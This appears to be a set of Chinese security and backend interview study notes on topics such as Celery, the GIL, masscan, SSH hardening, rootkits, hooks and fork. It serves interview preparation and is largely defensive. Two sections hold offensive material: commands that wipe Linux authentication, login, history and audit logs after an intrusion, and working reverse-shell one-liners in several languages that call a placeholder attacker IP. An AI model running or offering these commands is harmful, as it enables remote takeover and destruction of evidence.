   - 将任务封装成消息发送到消息队列（Broker），如 Redis 或 RabbitMQ。
2. **消息队列（Broker）**
   - 负责保存任务消息，保证任务可靠投递。
3. **Worker（消费者）**
   - 从 Broker 取任务消息，执行任务代码。
   - 执行完毕后可将结果存储到结果后端（Backend）。
4. **结果后端（Backend）**
   - 用于存储任务执行结果，客户端可以异步获取结果。

***

### ✅ 简要流程图

scss

`客户端 (调用 delay/apply_async)        ↓ 消息队列 (Broker，Redis/RabbitMQ)       ↓ Worker 监听 Broker，取出任务并执行       ↓ 任务执行结果写入结果后端 (Backend)       ↓ 客户端可查询或回调获取结果`

***

### ✅ 适用场景

- 异步执行耗时操作（邮件发送、文件处理、图片压缩）
- 分布式任务处理，负载均衡
- 定时任务执行
- 复杂任务流程控制（链式任务、分组任务）

***

### ✅ 面试回答模板

> Celery 是 Python 的分布式异步任务队列，支持多种消息中间件（RabbitMQ、Redis 等），通过将任务封装成消息放入 Broker，由 Worker 异步消费执行，实现任务的异步和分布式处理。它支持任务调度、结果存储、任务链等功能，适合解耦耗时操作，提高系统性能和可扩展性。

## ✓简述Python中的GIL锁，以及如何打破GIL锁的限制(★★)

### 一、什么是 GIL（Global Interpreter Lock）？

- **GIL 是全局解释器锁**，是 CPython 解释器中的一把全局锁。
- 它保证任意时刻只有一个线程在执行 Python 字节码。
- 目的是简化内存管理，尤其是引用计数的线程安全问题。
- 但是，GIL 限制了多线程并发执行 Python 代码的能力。

***

### 二、GIL 的影响

- 多线程中，CPU 密集型任务无法充分利用多核 CPU，因为只有一个线程能执行 Python 代码。
- IO 密集型任务不会受 GIL 太大影响，因为执行阻塞 IO 时会释放 GIL。

***

### 三、如何打破 GIL 限制？

### 1. 多进程（`multiprocessing` 模块）

- 使用多个进程代替线程，进程间相互独立，各自有自己的 Python 解释器和 GIL。
- 适合 CPU 密集型任务。

### 2. C 扩展释放 GIL

- 使用 C 语言扩展模块，在执行耗时操作时通过`Py_BEGIN_ALLOW_THREADS`和`Py_END_ALLOW_THREADS` 手动释放 GIL。
- 例如 numpy、scipy 等数值计算库底层通过此方式释放 GIL。

### 3. 使用不受 GIL 影响的实现

- Jython 和 IronPython 没有 GIL，但不支持原生 CPython 扩展。
- PyPy 有实验性解决方案。

### 4. 使用异步编程

- 利用`asyncio` 等异步框架提升并发效率，但仍在单线程中执行。

### 5. 结合原生线程库

- 通过调用底层多线程库（如 OpenMP、C++ 线程库）进行计算，绕过 GIL。

## ✓masscan号称世界上最快的扫描器，快的原因是什么，如何实现一个自己的masscan?(★★)

### 一、masscan 快速扫描的原因

1. **异步非阻塞设计**
   - masscan 使用基于`libpcap` 的异步网络I/O，不依赖阻塞式调用，极大提高网络包处理速度。
2. **自定义 TCP/IP 协议栈**
   - 内置轻量级 TCP/IP 协议栈，绕过操作系统内核的网络栈瓶颈，直接构造和发送原始数据包。
3. **高性能包发送与接收**
   - 支持批量构造数据包，使用`raw socket`或`libpcap` 进行高速发送和接收。
4. **利用大量并发**
   - 可以利用多核 CPU 并发发送，线程间调度和网络I/O分离，极大提升吞吐量。
5. **极简包处理逻辑**
   - 只做必要的端口扫描包处理，避免复杂协议处理，节省 CPU 时间。

***

### 二、如何实现自己的 masscan？

### 1. 使用 Raw Socket 或 libpcap 构造原始数据包

- 自行构造 IP、TCP/UDP 头，做到高效批量发送。
- 绕过操作系统 TCP 连接管理，避免三次握手的延迟。

### 2. 异步/非阻塞 IO 模型

- 使用异步事件驱动（如`epoll`、`kqueue`、`IOCP`），实现网络读写解耦。

### 3. 高效并发设计

- 利用多线程或协程设计，最大化网络带宽利用。

### 4. 优化扫描算法

- 高效分配扫描目标、端口范围。
- 支持速率限制和随机扫描，避免触发防火墙。

### 5. 精简扫描逻辑

- 仅处理必需的响应包，避免过多复杂的协议解析。

***

### 三、实现步骤示例

1. **初始化网络接口，打开原始套接字**
2. **构造 TCP SYN 包或 UDP 包，填充 IP 和端口信息**
3. **使用异步机制批量发送包**
4. **监听网络接口，异步接收响应包**
5. **解析响应，判断端口状态**
6. **根据扫描策略控制速率和顺序**

***

### 四、面试简述模板

> masscan 之所以速度极快，主要是因为它绕过了操作系统内核的网络栈，使用自定义轻量级 TCP/IP 协议栈和原始套接字批量异步发送数据包，同时采用事件驱动的非阻塞模型和多核并发设计。要实现自己的 masscan，需要掌握原始套接字构造数据包、异步非阻塞网络编程、高效并发调度及简单快速的扫描响应处理。

## ✓简述协程，线程，以及进程的区别(★★)

### 1. 进程（Process）

- **定义**：操作系统分配资源的最小单位，拥有独立的内存空间和系统资源。
- **特点**：
  - 独立运行，互不干扰。
  - 进程间通信（IPC）成本较高（管道、共享内存、消息队列等）。
  - 创建和切换开销大。
- **示例**：操作系统启动的应用程序就是一个进程。

***

### 2. 线程（Thread）

- **定义**：进程内的执行单元，同一进程的线程共享内存和资源。
- **特点**：
  - 轻量级，切换开销比进程小。
  - 多线程可以并行执行（多核 CPU 支持）。
  - 共享内存带来同步与竞态风险。
- **示例**：Java、Python 的多线程。

***

### 3. 协程（Coroutine）

- **定义**：用户态的轻量级“线程”，由程序自身调度，不依赖操作系统调度。
- **特点**：
  - 单线程内实现多任务切换，避免线程切换开销。
  - 非抢占式调度，需要显式“让出”控制权。
  - 高效处理大量并发，适合 IO 密集型。
  - 共享内存，无需锁，但需注意数据一致性。
- **示例**：Python 的`asyncio`、Go 的 goroutine。

***

### 总结对比表

| 特性   | 进程         | 线程         | 协程          |
| ---- | ---------- | ---------- | ----------- |
| 调度器  | 操作系统       | 操作系统       | 用户态程序       |
| 内存空间 | 独立         | 共享（同一进程）   | 共享（单线程内）    |
| 开销   | 大          | 较小         | 极小          |
| 切换方式 | 上下文切换（内核态） | 上下文切换（内核态） | 协作式切换（用户态）  |
| 并发方式 | 真正并行（多核）   | 真正并行（多核）   | 伪并行（单线程中切换） |
| 适用场景 | 资源隔离强，安全   | CPU密集，异步场景 | 大量并发，IO密集   |

***

### 面试简述示范

> 进程是操作系统资源分配的最小单位，拥有独立内存空间，开销大；线程是进程内的执行单位，多个线程共享内存，切换开销小且支持多核并行；协程是用户态的轻量级线程，由程序自身调度，切换开销极小，适合高并发 IO 密集场景，但只能在单线程内伪并行执行。

## ✓什么情况下会导致 goruntine 泄露， 应该如何排查? (★)

Goroutine 泄露（Goroutine Leak）指的是 Goroutine 启动后由于某种原因**迟迟不退出或永远不会退出**，从而造成资源占用、系统性能下降，甚至最终耗尽资源崩溃。Golang 程序中这是一个常见但容易被忽视的问题。

***

### ✅ 一、**常见 Goroutine 泄露的情况**

1. **channel 无人接收 / 无人发送**
   - Goroutine 卡在`<-ch`或`ch <-`，因为对应的一端不存在或已经退出。
   - 例子：

     `func leak() {     ch := make(chan int)     go func() {         ch <- 1  // 如果没人接收，这里就会阻塞     }() }`
2. **select 中所有 case 都无法执行，且无 default**
   - 阻塞在 select 中无法继续执行。
   - 例子：

     `select { case msg := <-ch1:     // do something case msg := <-ch2:     // do something } // 如果 ch1 和 ch2 都没数据，这里就会一直阻塞`
3. **Goroutine 等待某个信号，但信号永远不来**
   - 比如依赖 context 的 Goroutine，但外部没有 cancel。
   - 或者等待 WaitGroup，但`Done()` 没有正确调用。
4. **for + channel range 死等**
   - channel 不关闭，range 就不退出。
   - 例子：

     `ch := make(chan int) go func() {     for v := range ch {         fmt.Println(v)     } }() // 如果 ch 永远不 close，就泄露了`
5. **阻塞在 IO/网络/锁操作**
   - 比如长时间不返回的 HTTP 请求、阻塞的 mutex 等等。

***

### ✅ 二、如何排查 Goroutine 泄露

1. **使用 runtime.NumGoroutine()**
   - 查看当前活跃的 Goroutine 数量是否不断增加。
     `fmt.Println("Goroutine count:", runtime.NumGoroutine())`
2. **使用 pprof 工具**
   - 标准库自带，定位 Goroutine 的调用栈：

     `import _ "net/http/pprof" import "net/http" go func() {     http.ListenAndServe("localhost:6060", nil) }()`
   - 使用：

     `go tool pprof http://localhost:6060/debug/pprof/goroutine`
3. **Goroutine trace（运行分析）**
   - `go tool trace`+`runtime/trace` 包可以记录事件流程图。
   - 更详细分析 Goroutine 的生命周期。
4. **设置超时和退出机制**
   - 使用`context.WithTimeout`或`context.WithCancel`
   - 避免永远阻塞。
5. **代码审查重点**
   - 所有`go func()` 都要检查退出条件
   - 所有`range chan` 都要确保关闭
   - 所有`select`都尽量设置`default` 或超时

***

### ✅ 三、如何防止 goroutine 泄露（最佳实践）

| 场景               | 解决方案                                          |
| ---------------- | --------------------------------------------- |
| 阻塞的 channel      | 设置 buffer，确保读写对称，或者使用 select 超时               |
| context 不释放      | 用\`defer cancel()\` 保证及时释放                    |
| channel range 卡住 | 关闭 channel 或加退出信号                             |
| select 阻塞        | 加 default 或 timeout 分支                        |
| 多 goroutine 管理   | 使用\`errgroup.Group\`、\`sync.WaitGroup\` 等控制退出 |
| 长时间运行任务          | 定期检查健康状况或 goroutine 数量                        |

***

### ✅ 总结口诀

> “起了要关、读写配套、超时退出、trace 报道”。

## ✓SQL注入中时间盲注的POC应该如何编写? (★)

## ✓简述一下守护进程的概念，如何生成一个守护进程? (★)

### 一、守护进程的概念

- **守护进程（Daemon Process）** 是在后台运行的进程，通常不与用户直接交互。
- 它们通常用于执行系统服务、定时任务、后台监听等。
- 守护进程一般没有控制终端（TTY），不会因为用户注销而退出。
- 守护进程常驻系统，启动后持续运行。

***

### 二、生成守护进程的常见步骤

1. **创建子进程并让父进程退出（脱离控制终端）** &#x20;

   使用`fork()` 创建子进程，父进程退出，子进程成为孤儿进程。
2. **创建新会话（脱离终端）** &#x20;

   调用`setsid()` 使子进程成为新的会话首进程，脱离原终端。
3. **改变工作目录** &#x20;

   通常设置为根目录`/`，避免占用挂载点。
4. **重设文件权限掩码** &#x20;

   一般设置为 0，避免继承不合适的权限。
5. **关闭标准文件描述符** &#x20;

   关闭`stdin`,`stdout`,`stderr`，避免占用终端。
6. **捕获信号**（可选） &#x20;

   处理进程终止等信号，确保守护进程正确退出或重启。

***

### 三、示例（Linux C 伪代码）

`pid_t pid = fork(); if (pid > 0) exit(0);       // 父进程退出 setsid();                  // 创建新会话，脱离终端 chdir("/");                // 切换工作目录 umask(0);                  // 重设权限掩码 close(STDIN_FILENO);       // 关闭标准输入 close(STDOUT_FILENO);      // 关闭标准输出 close(STDERR_FILENO);      // 关闭标准错误 // 这里开始守护进程主循环 while (1) {     // 守护进程任务 }`

***

### 四、总结（面试简述示范）

> 守护进程是后台运行、不依赖终端的长期进程，常用于系统服务。生成守护进程通常通过`fork()`创建子进程，父进程退出，子进程调用`setsid()` 脱离控制终端，改变工作目录，重设权限掩码，关闭标准文件描述符，最后进入守护循环。

## ✓Linux 服务器的安全运维操作有哪些？如何保护 SSH？(★★)

### 一、Linux 服务器的常见安全运维操作

### ✅ 1. 系统加固

- **关闭不必要的服务/端口**（如 telnet、FTP、rsh）
- **删除多余用户与组**
- **最小权限原则**（使用`sudo` 控制权限）
- **定期更新系统补丁**：修复内核和服务的漏洞

### ✅ 2. 身份认证与账号安全

- **禁止 root 远程登录**（修改`/etc/ssh/sshd_config`中`PermitRootLogin no`）
- **强密码策略**：
  - 密码复杂度要求
  - 设置密码有效期、历史密码数量
- **使用密钥登录替代密码登录**

### ✅ 3. 日志与审计

- 启用`auditd` 审计服务
- 检查系统日志`/var/log/auth.log`,`/var/log/secure`,`/var/log/messages`
- 配置定期推送日志至集中式日志平台（如 ELK）

### ✅ 4. 防火墙和入侵防御

- 配置`iptables`/`firewalld` 限制端口访问
- 使用`fail2ban` 监控 SSH 暴力破解行为并封 IP
- 使用`SELinux`或`AppArmor` 限制进程权限
- 安装 IDS/IPS，如`Snort`,`OSSEC`,`Wazuh`

### ✅ 5. 文件和目录安全

- 设置关键文件权限，如`/etc/shadow`、`/etc/passwd`
- 使用`chattr +i` 加锁配置文件防篡改
- 加密敏感数据（`gpg`,`openssl`）

***

### 二、如何保护 SSH 登录安全

| 安全措施                  | 说明                                     |   |
| --------------------- | -------------------------------------- | - |
| 修改默认端口                | 避免被扫描工具轻易探测，\`Port 22\`→\`Port 2222\`  |   |
| 禁止 root 登录            | \`PermitRootLogin no\`                 |   |
| 使用密钥登录                | \`PasswordAuthentication no\`，强制使用公钥验证 |   |
| 限制登录用户                | \`AllowUsers\`或\`AllowGroups\` 配置      |   |
| 设置登录尝试限制              | 使用\`fail2ban\`、\`pam\_tally2\` 限制错误次数  |   |
| 启用防火墙白名单              | 只允许特定 IP 登录 SSH                        |   |
| 使用端口敲门（Port Knocking） | 增加隐蔽性，只有敲对端口序列才能开放 SSH                 |   |
| 使用 VPN + 内网 SSH       | SSH 服务只监听内网或 VPN 网段，提高安全性              |   |

***

### 三、面试回答模板

> 在 Linux 安全运维中，我们常见的加固操作包括关闭不必要服务、最小权限控制、使用密钥认证、部署防火墙、定期日志审计等。而针对 SSH，我会建议禁止 root 登录、使用非默认端口、启用公钥登录、配合`fail2ban` 限制爆破尝试、并通过防火墙或端口敲门控制访问来源，从而大幅降低 SSH 被入侵的风险。

***

## ✓入侵 Linux 服务器后需要清除哪些日志？(★★)

### ✅ 一、为什么要清除日志？

入侵者在取得系统权限后通常会**清除痕迹**以避免被发现、被溯源、或被恢复操作逆向分析。

***

### ✅ 二、常见日志清除目标

| 日志路径                                      | 说明                                    |
| ----------------------------------------- | ------------------------------------- |
| \`/var/log/auth.log\`或\`/var/log/secure\` | 登录认证、\`su\`/\`sudo\` 使用、ssh 登录记录等关键信息 |
| \`/var/log/wtmp\`                         | 记录所有登录和注销事件（可用\`last\` 命令查看）          |
| \`/var/log/lastlog\`                      | 所有用户上次登录时间（可用\`lastlog\` 查看）          |
| \`/var/log/btmp\`                         | 登录失败记录（可用\`lastb\` 查看）                |
| \`/var/log/messages\`                     | 系统核心消息、服务状态、命令行为                      |
| \`/var/log/syslog\`                       | 类似于\`messages\`，记录系统事件（Ubuntu 常见）     |
| \`\~/.bash\_history\`                     | 当前用户命令历史（默认存储在 home 目录中）              |
| \`/root/.bash\_history\`                  | root 用户执行命令历史                         |
| \`/var/log/bash.log\`（如果启用了 bash 日志）      | 用户终端输入记录                              |
| \`/var/log/httpd/\`或\`/var/log/nginx/\`   | Web 访问和错误日志，可能泄露访问痕迹                  |
| \`/var/log/audit/audit.log\`              | \`auditd\` 审计日志，记录所有文件、系统调用级别操作（极关键）  |

***

### ✅ 三、如何清除（理论上）

> ⚠️**注意：实际攻击行为请勿实施，以下内容仅供学习用途！**

1. **覆盖敏感日志文件内容：**

   `echo > /var/log/auth.log echo > /var/log/messages`
2. **删除命令历史：**

   `history -c rm -f ~/.bash_history rm -f /root/.bash_history unset HISTFILE`
3. **清除登录记录：**

   `> /var/log/wtmp > /var/log/btmp > /var/log/lastlog`
4. **关闭 auditd（如启用）并清除审计日志：**

   `systemctl stop auditd > /var/log/audit/audit.log`

***

### ✅ 四、注意事项（面试思路延伸）

- 系统管理员可能部署了**日志远程转发**（如 ELK、Graylog），仅清本地日志不够。
- 清日志要注意**时间戳和行为匹配**，不然容易露馅。
- 高级对抗中常通过**Log Tampering**（只改自己的记录），更隐蔽。
- 可考虑使用**rootkit、LD\_PRELOAD** 等隐藏痕迹。

***

### ✅ 五、面试总结回答模板

> 入侵 Linux 后，攻击者通常会清除或篡改诸如`/var/log/auth.log`、`/var/log/wtmp`、`~/.bash_history`等关键日志，防止被审计溯源。同时也会清除`auditd` 审计日志和 Web 服务日志。为了防御此类行为，我们可以启用远程日志同步、文件防篡改系统（如 AIDE）、并限制关键日志的访问权限。

## ✓反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么？(★★★)

### ✅ 一、什么是反弹 shell？

反弹 Shell（Reverse Shell）是指：目标服务器主动连接攻击者的监听端口，从而让攻击者控制目标系统的一个命令执行会话。

***

### ✅ 二、常用反弹 Shell 命令总结

以下以攻击者监听 IP 为`1.2.3.4`，端口为`4444` 为例：

#### 🟧 1. Bash（推荐，最常用）

`bash -i >& /dev/tcp/1.2.3.4/4444 0>&1`

也可用：

`exec 5<>/dev/tcp/1.2.3.4/4444;cat <&5 | while read line; do $line 2>&5 >&5; done`

***

#### 🟧 2. Netcat

#### 原始 nc（可能不支持`-e`）：

`nc 1.2.3.4 4444 -e /bin/bash`

#### 有些系统默认不支持`-e`，可改用：

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 1.2.3.4 4444 > /tmp/f`

***

#### 🟧 3. Python

`python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("1.2.3.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'`

#### Python3:

`python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("1.2.3.4",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'`

***

### 🟧 4. Perl

`perl -e 'use Socket;$i="1.2.3.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

***

### 🟧 5. PHP

`php -r '$sock=fsockopen("1.2.3.4",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

***

### 🟧 6. Socat

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.2.3.4:4444`

***

### ✅ 三、常反弹哪一种 shell？为什么？

> 一般使用的是`/bin/bash`，或`/bin/sh`，常用的是 Bash。

### 原因如下：

| 原因              | 说明                                          |
| --------------- | ------------------------------------------- |
| **兼容性强**​       | 几乎所有 Linux 系统默认都有\`/bin/bash\`或\`/bin/sh\`  |
| **交互性好**​       | 可以正常显示提示符、处理命令历史等                           |
| **支持 I/O 重定向**​ | 可以方便地处理标准输入输出（如\`bash -i >& /dev/tcp/...\`） |
| **命令执行能力强**​    | 支持各种命令扩展、管道、变量、脚本运行等                        |
| **稳定性高**​       | 不易崩溃，不依赖 GUI 环境                             |

***

### ✅ 四、面试回答总结模板：

> & /dev/tcp/IP/PORT 0>&1\`，原因是兼容性强、系统普遍存在、执行稳定并支持交互式会话，适用于大多数目标环境。

## ✓从主机的层面，反弹shell如何监控 (★★★)

### 一、反弹shell监控的核心目标

- **发现异常网络连接**（尤其是反向连接外网的行为）
- **检测可疑的进程行为**（执行shell、网络通信）
- **捕获异常命令执行和用户行为**
- **防止或记录反弹shell的利用链**

***

### 二、主机层面反弹shell监控手段

| 监控方向        | 具体措施与工具                               | 说明                                       |
| ----------- | ------------------------------------- | ---------------------------------------- |
| 1\\. 网络行为监控 | -\`netstat -antp\`，查看异常外部连接           | 发现未知的远程TCP连接，尤其是外部IP和高端口连接               |
|             | \\- 使用\`ss\` 命令，持续监控socket状态          | 实时监测异常连接状态                               |
|             | \\- 配置主机防火墙（iptables、firewalld）       | 阻断非授权的出站连接                               |
|             | \\- 监控DNS请求和流量异常                      | 反弹shell有时使用DNS隧道或DNS解析                   |
| 2\\. 进程行为监控 | \\- 使用\`ps\`,\`top\` 定期检测异常进程         | 可疑进程如\`nc\`,\`bash\`,\`python\`等带网络行为的命令 |
|             | \\- 利用内核审计（auditd）监控进程执行              | 审计命令执行和可疑二进制文件调用                         |
|             | \\- 使用系统监控工具（如 Sysmon/Linux eBPF）     | 高级进程行为监控，检测动态加载和网络调用                     |
| 3\\. 命令审计   | \\- 开启\`bash\` 或 shell 命令历史审计         | 追踪执行过的命令，排查反弹shell相关命令                   |
|             | \\- 通过审计框架（auditd）记录 execve 系统调用      | 精确监控所有执行的二进制和参数                          |
| 4\\. 文件监控   | \\- 文件完整性检查（AIDE、Tripwire）            | 检测被植入的webshell或反弹shell脚本                 |
| 5\\. 日志监控   | \\- 分析系统日志（/var/log/auth.log, syslog） | 登录异常、sudo操作等                             |
|             | \\- 审计连接日志（firewall, IDS）             | 发现异常访问尝试                                 |
| 6\\. 行为异常检测 | \\- 利用行为分析引擎（基于规则或机器学习）               | 检测异常的用户行为、进程行为及网络行为                      |

***

### 三、重点监控场景与示例

- **网络端口监听/连接** &#x20;

  监控主机是否存在监听反弹端口，或异常的远程TCP连接，如反弹bash、nc连接远程C2服务器。
- **典型反弹shell命令** &#x20;

  `bash -i >& /dev/tcp/ip/port 0>&1` &#x20;

  `nc -e /bin/sh ip port` &#x20;

  利用审计系统和日志分析检测是否执行过类似命令。
- **父子进程链分析** &#x20;

  异常shell一般伴随父进程为Web服务进程，子进程异常开启网络通信。
- **可疑二进制调用** &#x20;

  监听系统调用中涉及`socket()`,`connect()`等函数的进程。

***

### 四、实战推荐工具和技术

| 工具/技术         | 说明                        |
| ------------- | ------------------------- |
| auditd        | Linux审计框架，强制记录关键系统调用      |
| Sysmon        | Windows高级监控，进程与网络行为日志     |
| eBPF          | Linux内核动态跟踪，实时捕获系统调用及网络行为 |
| Suricata/Zeek | 网络流量监控，识别可疑通信             |
| OSSEC/Wazuh   | 主机入侵检测系统，结合日志和文件监控        |
| Falco         | 云原生环境行为监控，检测容器和主机异常行为     |

***

### 五、总结面试回答模板

> 从主机层面监控反弹shell，主要围绕异常网络连接、进程行为和命令审计展开。可以通过监控TCP连接状态和异常外部访问，利用auditd或Sysmon记录关键系统调用和命令执行，对文件系统和日志进行实时分析，结合行为异常检测技术，多维度发现反弹shell迹象。同时配合防火墙和网络IDS进行联动，提升检测与响应能力。

## ✓Rootkit的种类有哪些，针对不同种类的Rootkit应该如何防护以及检测 (★★)

### 一、Rootkit 的种类

1. **用户态 Rootkit（User-mode Rootkit）**
   - 运行于用户空间，通常通过替换或劫持系统库函数（如 libc）来隐藏自身或伪装进程。
   - 例如修改`ls`、`ps` 命令，隐藏文件和进程。
2. **内核态 Rootkit（Kernel-mode Rootkit）**
   - 运行于内核空间，利用内核模块（LKM）注入或修改内核数据结构，控制系统行为。
   - 隐藏进程、文件、网络连接，更难被发现。
3. **Bootkit**
   - 修改启动加载程序（如MBR、UEFI）来持久化 Rootkit，系统启动时先于操作系统加载。
   - 极其隐蔽，难以检测和清除。
4. **固件 Rootkit（Firmware Rootkit）**
   - 寄存在设备固件（如 BIOS、硬盘固件、网卡固件）中。
   - 系统重装也难以清除，隐蔽性极强。
5. **虚拟化 Rootkit（Hypervisor Rootkit）**
   - 在硬件虚拟化层面植入恶意代码，控制操作系统运行。
   - 更高层级，几乎不可检测。

***

### 二、防护与检测措施

| Rootkit类型   | 防护措施                         | 检测手段                                       |
| ----------- | ---------------------------- | ------------------------------------------ |
| 用户态 Rootkit | \\- 使用完整性校验工具（如 Tripwire）    | \\- 对比系统二进制哈希值                             |
|             | \\- 加强文件系统权限管理               | \\- 使用 Rootkit 检测工具（如 rkhunter、chkrootkit） |
| 内核态 Rootkit | \\- 禁止加载不明内核模块               | \\- 使用内核完整性检测（如 Kernel Module Signing）     |
|             | \\- 启用安全模块（SELinux、AppArmor） | \\- 检测异常内核模块、系统调用钩子                        |
| Bootkit     | \\- 启用安全启动（Secure Boot）      | \\- 检查启动扇区和引导加载器完整性                        |
|             | \\- 使用可信平台模块（TPM）            | \\- 使用专用引导安全检测工具                           |
| 固件 Rootkit  | \\- 定期固件升级，使用受信任的固件版本        | \\- 利用硬件供应商工具检测固件完整性                       |
|             | \\- 启用硬件防篡改机制                | \\- 监测设备异常行为和固件版本异常                        |
| 虚拟化 Rootkit | \\- 禁用不必要的虚拟化功能              | \\- 利用反虚拟化检测技术（Timing Attack等）             |
|             | \\- 使用可信计算环境（如 Intel TXT）    | \\- 使用安全监控和行为分析工具                          |

***

### 三、总结面试回答模板

> Rootkit 按运行层级可分为用户态、内核态、Bootkit、固件级和虚拟化 Rootkit。针对不同类型，应采取不同的防护措施，如用户态防止文件篡改，内核态防止模块加载，Bootkit 依赖安全启动与可信引导，固件级需要定期固件升级和检测，虚拟化层则需关闭不必要功能并利用反虚拟化技术。检测方面结合文件完整性校验、内核模块监控、引导区检测及硬件检测工具，构建多层次防护体系。

## ✓A账户创建了权限为766的文件夹`adir`，该文件夹中有B账户的文件`password.txt`，权限为B账户的700，请问B账户能否读取到`adir/password.txt`文件的内容 (★)

### 分析步骤

### 1. 目录权限`766`含义：

- `7`（用户A）：读、写、执行权限都有
- `6`（组）：读、写权限（无执行）
- `6`（其他）：读、写权限（无执行）

**关键点**：

- 对目录来说，**执行权限（x）表示进入目录和访问目录内文件的能力**
- 没有执行权限，无法`cd` 进入或访问目录下文件，即使有读权限也无法访问具体文件

这里组和其他的权限是`6`，即`rw-`，**没有执行权限**

***

### 2. B账户是否属于该目录的用户或组？

- 假设 B 不是目录的所有者（A）
- 假设 B 也不属于该目录的所属组
- 所以 B 用户属于目录的“其他”权限范围，即权限为`6`（rw-），**无执行权限**

***

### 3. 权限总结：

- 目录`adir`对 B 账户（“其他”用户）权限为`rw-`（读、写，无执行）
- **无执行权限**导致无法进入目录查看文件或访问目录下文件内容

***

### 4. 文件`password.txt`权限`700`：

- 拥有者 B 有读写执行权限
- 其他用户无权限访问

***

### 5. 是否能读取文件？

- 因为 B 需要执行权限才能进入目录`adir`
- **B 无法进入**\*\*`adir`****目录，故无法访问****`password.txt`\*\*
- 即使文件权限是700，B自己是文件所有者有权限，但由于目录权限限制，访问被阻止

***

### **结论：**

> **B账户无法读取**\*\*`adir/password.txt`****文件内容，因为目录****`adir`对B账户没有执行权限，导致无法访问目录下文件。\*\*​

***

### **补充说明：**

- 目录的执行权限（x）是访问文件的前提
- 如果把目录权限改成`rwxrwxrw-`（比如 777），B 就能访问了

## ✓ssh软链接后门的原理是什么，可以通过该原理构造其他后门吗?(★)

特定端口映射到指定配置文件

## ✓Linux中fork的原理是什么，子进程一定会拷贝父进程的资源状态吗？(★★)

### ✅ fork 的原理是什么？

在 Linux 中，`fork()`是一个用于创建**子进程** 的系统调用。其原理可以简要归结为以下几点：

### 🔧 1. 基本原理：

- `fork()`会创建一个与当前进程（父进程）**几乎一模一样**的新进程（子进程）。
- 子进程获得一个新的**PID**，其执行内容、数据空间、堆栈、打开的文件描述符等最初都与父进程相同。
- 但两者是**完全独立的进程**，不会共享堆栈或变量空间。

***

### ✅ 子进程一定会拷贝父进程的资源状态吗？

### ❌ 不完全拷贝！Linux 为此引入了优化机制：**写时复制 (Copy-On-Write, COW)**

### 🔍 COW 的机制：

- 父子进程在 fork 后**共享相同的物理内存页**；
- 这些共享页被标记为只读；
- 一旦其中某个进程对共享内存进行写操作，内核会：
  - 为该页分配新的物理内存；
  - 拷贝原数据到新页；
  - 将写操作应用在新页上；
- 从而达到“**只有修改时才复制**”的目的，显著提升了性能。

### 📌 示例：

- 使用`fork()` 创建一个子进程；
- 父子进程都拥有独立的地址空间；
- 但在写入数据前，物理内存实际上是共享的。

***

### ✅ 总结一句话（建议背诵）：

> Linux 中`fork()` 通过创建父进程的副本来生成子进程，采用写时复制（Copy-On-Write）技术避免了对内存和资源的立即完全复制，只有在进程尝试写入共享资源时才进行真正的拷贝，从而提高效率。

***

### ✅ 可选补充（加分点）：

- `fork()`在底层调用`clone()` 实现；
- 现代服务常用`vfork()`或`posix_spawn()` 等替代，以进一步优化性能；
- 常配合`exec()` 用于启动新程序。

## ✓实现R3层HOOK的方式有哪些，R0层的HOOK又有哪些? (★)

### ✅ 一、什么是 HOOK？

> HOOK 是一种**拦截、修改、监控系统行为** 的技术，广泛用于调试、注入、监控、后门等场景。根据所在的权限层级，可以分为：

- **R3（Ring3，用户态）HOOK**
- **R0（Ring0，内核态）HOOK**

***

### ✅ 二、R3 层 HOOK 的常见方式：

R3 层运行在用户态，权限较低，常用于拦截进程中的函数调用。

| HOOK方式                                 | 简述                                              |
| -------------------------------------- | ----------------------------------------------- |
| \*\*IAT HOOK\*\*（Import Address Table） | 修改 PE 文件中的导入表函数地址指向自定义函数。适合静态 HOOK Windows API。 |
| \*\*EAT HOOK\*\*（Export Address Table） | 修改 DLL 的导出表，让其它模块调用导出函数时转向自定义逻辑。                |
| **Inline HOOK（代码注入）** ​                | 修改函数的前几字节，用 JMP 指令跳转到自己的代码。                     |
| \*\*Detours HOOK\*\*（微软开源库）            | 微软提供的函数截获库，修改目标函数实现劫持。                          |
| **SetWindowsHookEx HOOK**​             | 利用 Windows 的消息钩子机制，常用于键盘、鼠标等消息截获（仅限 GUI 程序）。    |
| **DLL 注入 + API Hook**​                 | 注入 DLL 到目标进程，然后在其地址空间内进行函数 HOOK。                |

***

### ✅ 三、R0 层 HOOK 的常见方式：

R0 层属于内核态，权限高，适用于监控/控制整个系统行为。使用需谨慎（尤其在新版 Windows 下有 PatchGuard 和 DSE 限制）。

| HOOK方式                                         | 简述                                                                                      |
| ---------------------------------------------- | --------------------------------------------------------------------------------------- |
| **SSDT HOOK（System Service Dispatch Table）** ​ | 替换系统调用表中函数指针，截获系统调用（如\`NtOpenProcess\`）。经典方法，易被检测。                                      |
| **IDT HOOK（Interrupt Descriptor Table）** ​     | 修改中断向量表，例如 Hook 0x2E 系统调用中断（旧版 Windows）。                                                |
| **Inline HOOK（内核函数代码修改）** ​                    | 修改内核函数开头字节，跳转到恶意处理逻辑。适用于内核模块。                                                           |
| **Object Hook / Filter Hook**​                 | 利用 Windows 提供的\`ObRegisterCallbacks\`、\`PsSetCreateProcessNotifyRoutine\` 等接口实现合法 Hook。 |
| **内核回调注册机制**​                                  | 利用内核提供的注册回调机制监控进程、线程、模块加载等。非传统 HOOK，但常用于安全软件。                                           |
| **Shadow SSDT Hook（仅在 WOW64 下）** ​             | 用于 32 位进程在 64 位系统上的系统调用拦截。                                                              |

***

### ✅ 四、总结一段话（面试模板）：

